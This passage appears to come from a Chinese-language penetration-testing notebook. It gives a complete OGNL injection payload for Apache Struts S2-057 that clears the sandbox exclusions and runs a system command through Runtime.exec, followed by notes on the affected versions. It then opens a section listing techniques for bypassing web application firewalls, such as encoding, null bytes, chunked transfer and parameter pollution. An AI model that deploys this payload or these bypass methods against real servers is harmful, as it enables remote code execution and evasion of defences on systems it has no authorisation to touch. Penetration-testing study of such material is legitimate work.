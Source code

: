```
${(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.get
ExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apac
he.commons.io.IOUtils@toString(#a.getInputStream()))}
```

ApacheStruts 版本 2.3 至2.3.34 和 2.5 至 2.5.16 当alwaysSelectFullNamespace 为true 时 可能会受到远程执行代码（由用户或诸如 ConventionPlugin 之类的插件使用 ），同时使用没有设置值和操作的 URL 标记时也可能导致远程代码执行。

![s2-057](https://raw.githubusercontent.com/Scorpio-m7/Penetration-Zbook/main/img/s2-057.png)

# 14-web渗透测试-绕过Web防火墙

## 01-WAF简介

WAF对于检测一些常规漏洞，如SQL注入、XSS、命令执⾏、文件包含等漏洞的⽅式大多是基于“正则表达式”和“AI+规则”的⽅方法，因此会有一定的几率绕过其防御。

### 01-绕过WAF常⽤用⽅方法

- ⼤小写绕过
- 注释符绕过
- 编码绕过
- 使⽤用空字节绕过
- 关键字替换绕过
- HTTP协议覆盖绕过
- 白名单IP绕过
- Pipline绕过
- 参数污染绕过
- 溢出WAF绕过
- 分块传输绕过
- 真实IP绕过
